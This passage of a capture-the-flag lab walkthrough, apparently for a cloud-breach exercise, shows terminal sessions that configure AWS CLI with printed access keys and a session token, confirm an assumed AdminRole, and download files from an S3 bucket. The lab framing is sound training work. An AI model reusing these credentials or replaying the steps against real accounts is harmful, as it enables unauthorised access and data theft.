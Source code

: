 To assume the role, run the aws configure command with the AccessKeyId and SecretAccessKey from the previous step. To set the token, run the command: `aws configure set aws_session_token "<SessionToken>"`. With that completed, we can run the command aws sts get-caller-identity to verify our new context.

```bash
nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws configure --profile MySession
AWS Access Key ID [None]: ASIARSCCN4A36SPPKZMQ
AWS Secret Access Key [None]: i3z3fbG/LpkALfH1NYAL8V471hMLsunEvsVxnGHu
Default region name [None]:
Default output format [None]:
nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws sts get-caller-identity
{
"UserId": "AIDARSCCN4A3X2YWZ37ZI",
"Account": "107513503799",
"Arn": "arn:aws:iam::107513503799:user/temp-user"
}


nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws configure --profile MySession
AWS Access Key ID [****************KZMQ]: ASIARSCCN4A36SPPKZMQ
AWS Secret Access Key [****************nGHu]: i3z3fbG/LpkALfH1NYAL8V471hMLsunEvsVxnGHu
Default region name [us-east-1]:
Default output format [None]:
nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws configure set aws_session_token "FwoGZXIvYXdzED8aDDZ5VQCreHbUQ5Z3oyKtAY1o7HfI19KFwef+EbXFeI/a8J/naQ8On8ZugLpnIal/WOCv5IXnv4BgyLDL1TV/XgoiYGKNOXLNi/6A/eXNJZo5v90O31MyNeumZvNp5qVWv1hAZb3+SdukVSjWZhOYyvewhnY1vGsHiqrO4fwpexdvnZz6odTXoxNjQaLjvScoLr/03qOxxOYtLzkYd3Xy/wzZO5vJTxWJVQaRofPwpyhHRI/6PPf5DOaRcVBfKPOXtKwGMi2YxCVDFsxHZD3jvimnShh/xhvYAl2QTGxXY5xbFnwoSu6bgSBLN+mnQ80Khx8=" --profile MySession
nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws sts get-caller-identity --profile MySession
{
"UserId": "AROARSCCN4A34V23XHK6I:MySession",
"Account": "107513503799",
"Arn": "arn:aws:sts::107513503799:assumed-role/AdminRole/MySession"
}
```

Now we can get list and get the files from s3 bucket called `emergency-data-recovery`  and dump it out&#x20;

```bash
nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws s3 ls s3://emergency-data-recovery --profile "MySession"
2023-08-27 02:37:50 2232 emergency.txt
2023-08-27 03:49:02 236 message.txt

nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws s3 sync s3://emergency-data-recovery/ ./ --profile "MySession"
download: s3://emergency-data-recovery/message.txt to ./message.txt
download: s3://emergency-data-recovery/emergency.txt to ./emergency.txt
```
